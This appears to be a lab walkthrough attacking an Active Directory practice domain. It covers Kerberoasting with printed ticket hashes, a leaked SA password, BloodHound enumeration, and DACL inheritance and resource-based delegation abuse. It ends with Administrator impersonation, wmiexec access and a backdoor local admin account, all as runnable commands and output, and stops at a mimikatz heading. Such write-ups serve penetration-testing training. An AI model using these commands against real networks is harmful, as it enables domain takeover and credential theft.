2024-10-16 09:01:19.148443 <never>
alice 2024-10-16 09:04:32.801631 <never>
david 2024-10-16 09:04:35.004828 <never>
noah 2024-10-16 09:04:37.020351 <never>
samuel 2024-10-16 09:04:39.020348 <never>
willa 2024-10-16 09:04:41.051689 <never>
yara 2024-10-16 09:04:43.082861 <never>
zane 2024-10-16 09:04:45.129786 <never>
ethan 2024-10-16 09:04:47.098475 <never>
scott 2024-10-16 09:04:49.114113 <never>
katherine 2024-10-16 09:04:51.129724 <never>
victor 2024-10-16 09:04:52.832857 <never>
lee 2024-10-16 09:04:54.534720 <never>
taylor 2024-10-16 09:04:56.175260 <never>
uma 2024-10-16 09:04:57.800304 <never>
sophia 2024-10-16 09:04:59.456500 <never>
charlie 2024-10-16 09:05:01.269883 <never>
isabella 2024-10-16 09:05:03.082381 <never>
frank 2024-10-16 09:05:04.848006 2024-10-19 23:04:35.319767
olivia 2024-10-16 09:05:06.676133 <never>
backup 2024-10-16 09:05:08.332387 <never>
sql_svc 2024-10-16 09:05:09.926135 <never> We have more users that we did from our initial enumeration.
Kerberoasting Attack
Kerberoasting is a post-exploitation attack technique that aims to obtain the password hash of an Active Directory account that has a Service Principal Name (SPN). This attack involves an authenticated domain user requesting a Kerberos ticket for an SPN, which is encrypted with the hash of the service account password. The attacker then works offline to crack the password hash, often using brute-force techniques. Once the plaintext credentials are obtained, the attacker can impersonate the account owner and gain access to any systems, assets, or networks granted to the compromised account
Often times, Service Principals may be over-privileged or delegated to privileged resources. GetUserSPNs.py will allow the operator to request a Ticket-Granting-Service ticket, thereby revealing the Service Principal's NTLM hash, which may be able to be cracked. You could then pass the cracked service principal's password around the network.
GetUserSPNs.py 'academy.ninja.lan/SQL$@dc-ac.academy.ninja.lan' -aesKey '52910fc862652b7a15e0faf0bad2de655196ad608b301e7c9435e6929634746f'

Now that we know that we know that we do have 2 accounts with Service Principal Name enabled, we can simply request these hashes and try to crack offline.
GetUserSPNs.py -request 'academy.ninja.lan/SQL$@dc-ac.academy.ninja.lan' -aesKey '52910fc862652b7a15e0faf0bad2de655196ad608b301e7c9435e6929634746f'
$krb5tgs$23$*frank$ACADEMY.NINJA.LAN$academy.ninja.lan/frank*$c6702b130bff84e367ee5b804029c048$4cb5ae268200f8b2b969ae390fc50c92383cc4f59c4a67605dc00f0377d3ab7c362ad75860a8eabc720b8e2731fecf0eba1cb84a8a4e12d0c666f75540805e1a36b64fdee41c6704480b34e45fc9c11fc55882b3644e6e60e8f0ef2cb7e46c1101451f2dc477e88a88a76bdc80dfa1199b750a8b271eab39489c04cf780991c115578d773372dbb94ba1b2fce5005903a34d7f112f64c8d871be5236708c249e78a7ffc87042236ef6757f954f484503881b83872867895b6d5d395b7fd800c7d406b8ee494af327c39b0d9ed6b14fe431191b39ffbc39b98b809f7452bf5352e51a19a02a8e5c26771db64e6eb24ce62aead64ec0fa9ddecab7a21ac7ced0a7779878ef3de680fa27335294df90011298e9aab3fb5c4a52b5f0b94e81d9c8ebd4ad770e1f21acba4419238bbaa7d4f989ea4e62512e3b0ebb1d0fe78678838339a051838b1e85d5c4080a1556a69e354860da9c44386501e5e77baa2bd4def78b2885b5889503c8990183b5857010a30124a20eb767a6f5e6954ca07828006d02fe565464ba03d08b278f56d62366a7a3627e3e862409d5087979e4ae85c339b2193e16cbb74c8ec8446dc53914cce573f64c8133cde833e623dc10b2c6593eefe7e64a7a6557c11bac50b94a4bc12fda32c4fd204e9846884d64225f928ef784875b2df2e9390519c93cda1fb3461591f68b44e84ac4496ac68c759bb8998a4e76bb3c2568148415d2668061068014e0d2a3dd73c79ea3d0541fe372b32f61165a505b5d432f4a8dff3a5ecc1c029bcb30567382cd83b0fe815bfcfa8abb8957c8dae51a9f7c2ba6b6b23d6e1bc5be50aeea0ae1221bb84122998312af342b965241668e1446570cc052dc773bfdec75c4a1b37ed4e0b486d78eaa12d3db4e77bdae316b9d5cb7811f9e06107f23dbbf353cf38382e814ade1504e338e23070dd26e5df3108006e89fbc19ae525bf59eb25ebae692f9227bcb7202ee6bed407ee9f80d7dd141980410cee64a513506aa4e61ca2cfb711a9b00b0c1d3f9c8cfd551e5792d333cd02b5a7eebb9e09ca84b41626cc77920114dbf61f1f3d35667fea350052b611eee9fd1090203ec816e18b6427c4932c9eb0cb6d32aab85505824c9f2f75e3c402a951ac576843e05de8507cc3d0a53c45f4a68b5cce1aab084e07e8be3c42306da5e2a8ebb16fa889a908bdf357d5c98ee4c8b6d57c8a4c075627f303ea89f06b8fe0bb818a9cf6770976424a4b959c9a5a7b69b46353b039320711f6e3cd9aae8b703ca4203744866b2e2538e310c739807e9e30f0b6974e19739dd4e223610c34e84b0b58da2c849dd44abb8d56a60bc376308b13794627bc3781ec1878131b97f5901ad012289a13a373438dee8dd82350443e803907ffb18af0f5584dbe233866767844b6197935eaf8c2aed4c036fb17c59d68500da076ac433d7b633e6c26d0e407b3281
$krb5tgs$23$*sql_svc$ACADEMY.NINJA.LAN$academy.ninja.lan/sql_svc*$6f3ed7174ae0eaace6b9e353ef53031d$0bb384900f6165541f327b050acc1cd94b48abb1f5b43b44dc9752b0b9a9eebd8842e4f66d20f8e2fdcad342e8957ddc44eee38ce76c8a40b91c8099bd010849ab48632250fc96cc1febae08a23fb35796b5286dd110f3c66c4c9740754f62e8af2cdda8acae4eedb0d1536dcabf7ca7508c0b8984e8c7af3d7b8db96f3af5874142f9b5f0e6b97b894b39d4262985df06292009ae3b534638802815cb55fce9018f59770dcb2b080efa137a5ccb43d11738f25a331c2f1bdcd3e35d4b4e5f2726fcc559fc7df98f2beac764d9f98a1070df2eb3fabe57512eb679d97f3c65f3393312b2c61aba17f5195105642410818cda229fb291740bfebaf5d9e7618fd21ab770a18fc5ebd105ad0aa54a98e7bfdac8e9c655b1ed12114ddd2e68cc11d71747d8bf6ca4e015d6c43a7e7a6edc9f2836d92ff94a27d19dad3c2e5d71a25dce5b8c62a758a34a54067e1d2fd4abaf9c63b8c4124784ae7ac9a2ad51f515d8e6f1924f30d55a01ab0be9ffbdaebb9a2a7eb78ab9797a538f57873a211b75a3ba9ce11e078a65f1526d254ceb222fa4ee624eb51d7b313d4c735daadd628d5ab12db7ba2e57acfc0726f3e4ffc6abcedfff84c5194d55c1b21c4adfb7da4c020b560fc13d0f0e43583bb92baceb323b66bd155f5710baa74be517a905bd5ed55d7cd1fa63618d3c1cb95f0d41d4af4a2a5381b08894153456d30691c1f5ca513b27c7eefeda06e83d0c7bbc8a7d00ea920643ff73c873990463e8114a0ad633115cd8c43990bd49ed66ad3b34271cafdbb6951b73c20a15991c6654608724654c9d2ce7516e80f892979a3c202e86ff118ef87f0385acdc1dbbff06b25a316bdc7c2cd2b74911e5452dd682d1e7d9ab11b5c528a9b819e493f6a8227d40da7badb6951a11ab29cd59cfc4dfd23980076b783d74fb53361ecc50b6e9d7062d10172c27394f5116ff53727de5de6a0f90ec795b5ea5ea4739dc0e24b17bcff3a46c549d1ad3bae69e1707e25130fd9c0cddd56a27b54b8b70e6b8897c80a8d47abe63e0b900a5aaaf7aaa1b1cd4582ae6c8fb9d9447840e0a44e36565897d4d1bad0b434bf961dc675e3f280fefdfaccf96579b8d0b321e4fd9efff399839241c751f72d7cb124af9562e05a5436e00633f63b5fc7bb8f8caa052a69ae8cae7b52c2425d7bb73fbb1fcba7b940eb81923981287c048565c34e96415c6057e172f27cea8333e93568ed67f5ae1e3795f0393dc52760ecaa0ae6df6cc5f44e4dca0009d12f680cc94b66142678ea4c97681a5d977f9e4d9e3483ac5dce2ffe982019bdc5fd1e6470b69e29b9bb47b9eba16b7459212637ac151b15f52a29688728451114f64523954527cb0d606a350cb121247b7318a1e53ba4143a6231a207d4973ea9038bfac5338593b8341c37c6f94450fa2667bfebdba9268ac8a574a1d42d4433420a33a45a95e310b468f76Unfortunately I was not able to crack these 2 SPN account hashes.
While doing some enumeration inside the SQL server I found some credentials in this file C:\setup\mssql\sql_conf.ini. I tested it in MSSQL and it worked.
SQLSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
SAPWD="sa_P@ssw0rd!N1nJ4hackaDemy"
SQLSYSADMINACCOUNTS="NT AUTHORITY\NETWORK SERVICE"
ADDCURRENTUSERASSQLADMIN="True"mssqlclient.py 'academy.ninja.lan/sa':'sa_P@ssw0rd!N1nJ4hackaDemy'@'sql.academy.ninja.lan'
Well but this is not worth it at all since the access was for MSSQL service only.
Bloodhound
Since we do have a valid domain account, I decided to use Bloodhound to enumerate the whole academy.ninja.lan domain. BloodHound-python is a tool used to collect and analyze data from Active Directory environments. It gathers information about AD objects (users, groups, permissions, etc.) and relationships, which can then be visualized in BloodHound to identify attack paths for privilege escalation.
bloodhound-python -c all -d 'academy.ninja.lan' -u 'SQL$' -aesKey '52910fc862652b7a15e0faf0bad2de655196ad608b301e7c9435e6929634746f' -dc 'dc-ac.academy.ninja.lan' -gc 'dc-ac.academy.ninja.lan'
Bloodhound-Quickwins
I’ll also be using Bloodhound-QuickWins script. https://github.com/kaluche/bloodhound-quickwin. A simple script to extract useful information from the combo BloodHound + Neo4j. Can help to choose a target. Before we use Bloodhound-Quickwins you need to do the following steps.
Now let’s execute the script using neo4j credentials. ./bhqc.py -u 'neo4j' -p 'neo4jPass' --heavy
We will be combining the Graphic User screenshots plus bloodhound-QuickWins Output. After executing the Quickwins we can see something interesting here.
▬▬ι═══════ﺤ BloodHound QuickWin @ kaluche_ -═══════ι▬▬
###########################################################
[*] Enumerating all domains admins (rid:512|519|544) (recursive)
###########################################################
[+] Domain admins (group) : DOMAIN ADMINS@ACADEMY.NINJA.LAN
[+] Domain admins (group) : ENTERPRISE ADMINS@ACADEMY.NINJA.LAN
[+] Domain admins (group) : SENSEI@ACADEMY.NINJA.LAN
[+] Domain admins (enabled) : ADMINISTRATOR@ACADEMY.NINJA.LAN [LASTLOG: < 1 year]
[+] Domain admins (enabled) : ALICE@ACADEMY.NINJA.LAN [LASTLOG: NEVER]
[+] Domain admins (enabled) : DAVID@ACADEMY.NINJA.LAN [LASTLOG: NEVER]
[+] Domain admins (enabled) : KATHERINE@ACADEMY.NINJA.LAN [LASTLOG: NEVER]
[+] Domain admins (enabled) : UMA@ACADEMY.NINJA.LAN [LASTLOG: NEVER]
[+] Domain admins (enabled) : VAGRANT@ACADEMY.NINJA.LAN [LASTLOG: < 1 year]
[+] Domain admins (enabled) : YARA@ACADEMY.NINJA.LAN [LASTLOG: NEVER]
###########################################################
[*] Enumerating all SPN
###########################################################
[+] SPN (enabled) : FRANK@ACADEMY.NINJA.LAN
[+] SPN (enabled) : GMSANFS$@ACADEMY.NINJA.LAN
[+] SPN (enabled) : SQL_SVC@ACADEMY.NINJA.LAN
[+] SPN (disabled) : KRBTGT@ACADEMY.NINJA.LAN [AdminCount]
###########################################################
[*] Enumerating Constrained user account
###########################################################
[+] Constrained user (enabled) : FRANK@ACADEMY.NINJA.LAN ['eventlog/share', 'eventlog/share.academy.ninja.lan']
###########################################################
[*] Enumerating Unconstrained computer (DC)
###########################################################
[+] Unconstrained computer (enabled) : DC-AC.ACADEMY.NINJA.LAN [Windows Server 2019 Datacenter Evaluation]
###########################################################
[*] Can configure Resource-Based Constrained Delegation
###########################################################
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> ACCOUNT OPERATORS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> ADMINISTRATOR@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> ADMINISTRATORS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> ADMINSDHOLDER@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> ALICE@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> BACKUP OPERATORS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> DAVID@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> DOMAIN ADMINS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> DOMAIN CONTROLLERS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> ENTERPRISE ADMINS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> ENTERPRISE KEY ADMINS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> KATHERINE@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> KEY ADMINS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> KRBTGT@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> PRINT OPERATORS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> READ-ONLY DOMAIN CONTROLLERS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> REPLICATOR@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> SCHEMA ADMINS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> SENSEI@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> SERVER OPERATORS@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> UMA@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> VAGRANT@ACADEMY.NINJA.LAN
[+] RBCD : configure from BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> YARA@ACADEMY.NINJA.LAN
[+] RBCD : configure from SQL.ACADEMY.NINJA.LAN [OWNED] --> GenericAll --> COMPUTERS@ACADEMY.NINJA.LAN
###########################################################
[*] relationships - testing which group can do what to others (all)
##########################################################
[+] ACL : RAS AND IAS SERVERS@ACADEMY.NINJA.LAN--> WriteDacl --> RAS AND IAS SERVERS ACCESS CHECK@ACADEMY.NINJA.LAN
[+] ACL : RAS AND IAS SERVERS@ACADEMY.NINJA.LAN--> WriteOwner --> RAS AND IAS SERVERS ACCESS CHECK@ACADEMY.NINJA.LAN
[+] ACL : SENSEI@ACADEMY.NINJA.LAN--> AdminTo --> DC-AC.ACADEMY.NINJA.LAN
[+] ACL : SENSEI@ACADEMY.NINJA.LAN--> DCSync --> ACADEMY.NINJA.LAN
###########################################################
[*] relationships - testing which (non admins) users can do what to others (all)
###########################################################
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> UMA@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> KATHERINE@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> YARA@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> DAVID@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> ALICE@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> VAGRANT@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> KRBTGT@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> ADMINISTRATOR@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> ADMINISTRATORS@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> DOMAIN ADMINS@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> ENTERPRISE ADMINS@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> ACCOUNT OPERATORS@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> KEY ADMINS@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> ENTERPRISE KEY ADMINS@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> SENSEI@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> READ-ONLY DOMAIN CONTROLLERS@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> SERVER OPERATORS@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> SCHEMA ADMINS@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> DOMAIN CONTROLLERS@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> REPLICATOR@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> PRINT OPERATORS@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> BACKUP OPERATORS@ACADEMY.NINJA.LAN [AdminCount]
[+] ACL : BACKUP@ACADEMY.NINJA.LAN--> WriteOwner --> ADMINSDHOLDER@ACADEMY.NINJA.LAN
[+] ACL : FRANK@ACADEMY.NINJA.LAN--> AllowedToDelegate --> SHARE.ACADEMY.NINJA.LAN
[+] ACL : GMSANFS$@ACADEMY.NINJA.LAN--> ForceChangePassword --> BACKUP@ACADEMY.NINJA.LANSummary of Attack Path:
Well, we can see based on the enumeration using Bloodhound-QuickWins, that target “SQL” has GenericAll rights to Computers Container and we already compromised this host. The following privilege escalation (privesc) path provides a step-by-step attack strategy based on the permissions and relationships identified in BloodHound-QuickWins enumeration. Each step exploits the identified privileges to escalate access, ultimately leading to Domain Admin control.
SQL.ACADEMY.NINJA.LAN [OWNED] --> GenericAll --> COMPUTERS@ACADEMY.NINJA.LAN
GMSANFS$@ACADEMY.NINJA.LAN--> ForceChangePassword --> BACKUP@ACADEMY.NINJA.LAN
BACKUP@ACADEMY.NINJA.LAN --> WriteOwner --> ALICE@ACADEMY.NINJA.LAN
Domain admins (enabled) : ALICE@ACADEMY.NINJA.LAN [LASTLOG: NEVER

This path leads us from control over the SQL machine to full Domain Admin privileges by leveraging a series of misconfiguration and excessive privileges across service and user accounts.
GenericAll Over Container
With full control of the container, we may add a new ACE on the container that will inherit down to the objects under that OU.
Meaning… If the WEB$ account is part of a container where we hold GenericAll privileges, we might assume that we already have enough access to manage it. However, that’s not the case.
The key issue is that we don’t directly have those privileges over the WEB$ object itself. To gain the necessary access, we would first need to enable inheritance.
This would ensure that any privileges granted on the container also apply to the objects within it, including WEB$.Checking the DACL rights SQL$ has to the computers@academy.ninja.lan container.
dacledit.py -action 'read' -principal 'SQL$' -target-dn 'CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN' 'academy.ninja.lan'/'SQL$' -aesKey '52910fc862652b7a15e0faf0bad2de655196ad608b301e7c9435e6929634746f'
We can see above screenshot that SQL$ machine account has FullControl ready, which of course it has to be because we have GenericAll already.
Now, the next step is to enable inheritance using our SQL$ machine hashes to the Distinguished Name (dn) of COMPUTERS container. Once that is done, we can see that we will have GenericAll privileges over the WEB$ machine. dacledit.py -action 'write' -principal 'SQL$' -target-dn 'CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN' 'academy.ninja.lan'/'SQL$' -aesKey '52910fc862652b7a15e0faf0bad2de655196ad608b301e7c9435e6929634746f' -inheritance
If we check it again, we will see that we now have a different information, ACE FLAGS now contains the CONTAINER_INHERIT_ACE, OBJECT_INHERIT_ACE flag. dacledit.py -action 'read' -principal 'SQL$' -target-dn 'CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN' 'academy.ninja.lan'/'SQL$' -aesKey '52910fc862652b7a15e0faf0bad2de655196ad608b301e7c9435e6929634746f'

Checking the rights over the web.academy.ninja.lan, we can see that we do have FullControl over it. dacledit.py -action 'read' -principal 'SQL$' -target-dn 'CN=WEB,CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN' 'academy.ninja.lan'/'SQL$' -aesKey '52910fc862652b7a15e0faf0bad2de655196ad608b301e7c9435e6929634746f'

Now we have the right permissions to touch whatever over the object that is a part of the container. In this case we can now abuse web.academy.ninja.lan host.
We now have directly GenericAll over WEB$ machineWEB Server Privilege Escalation - Resource Based Constrained Delegation
A Resource-Based Constrained Delegation (RBCD) attack allows an attacker to take control of a resource (like a machine) in an Active Directory environment and configure it to impersonate other users, leading to privilege escalation or lateral movement. This attack exploits the ability of a resource to delegate authentication without the owner's permission.
Well, now we do have GenericAll permission over a WEB$ computer account, in this case we have GenericAll over web.academy.ninja.lan.
Because of the permission we have on the machine, we can abuse the RBCD (Resource Based Constrained Delegation).1st - We do ADD a computer to the domain. addcomputer.py -computer-name 'starkcomputer$' -computer-pass 'Stark123!' -dc-host 'dc-ac.academy.ninja.lan' 'academy.ninja.lan'/'SQL$'@'academy.ninja.lan' -aesKey '52910fc862652b7a15e0faf0bad2de655196ad608b301e7c9435e6929634746f'

2nd - Now we need to ADD Delegation Rights to our target machine(WEB$) from our just added computer(starkcomputer$) rbcd.py -delegate-from 'starkcomputer$' -delegate-to 'WEB$' -dc-ip 'academy.ninja.lan' -action 'write' 'academy.ninja.lan'/'SQL$'@'academy.ninja.lan' -aesKey '52910fc862652b7a15e0faf0bad2de655196ad608b301e7c9435e6929634746f'

So it’s possible to see from the output that, Delegation Rights were added with success to our controller user (starkcomputer$).
3rd - Now we can simply do the S4U2self followed by S4U2Proxy query resulting to administrator permission in WEB$.
getST.py -spn 'cifs/web.academy.ninja.lan' -impersonate 'Administrator' -dc-ip 'dc-ac.academy.ninja.lan' 'academy.ninja.lan'/'starkcomputer$:Stark123!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_web.academy.ninja.lan@ACADEMY.NINJA.LAN.ccacheWe can now use the requested ticket to access the web server, in this case web.academy.ninja.lan host. export KRB5CCNAME=Administrator@cifs_web.academy.ninja.lan@ACADEMY.NINJA.LAN.ccache
klist

Once we got the Administrator permission in web.academy.ninja.lan, we can use the administrator ticket to access WEB.
wmiexec.py -k -no-pass web.academy.ninja.lan

whoami /all
We do have Administrator rights inside WEB server, using the forget ticket.
I just decided now to create another user and add it to the local Administrators group inside web.academy.ninja.lan, this way we can also access the host using Evil-WinRM and have a better interactive remote access.
net user stark Stark123! /add
net localgroup Administrators stark /add
evil-winrm -i 'web.academy.ninja.lan' -u 'stark' -p 'Stark123!'
Credentials dumping With mimikatz.
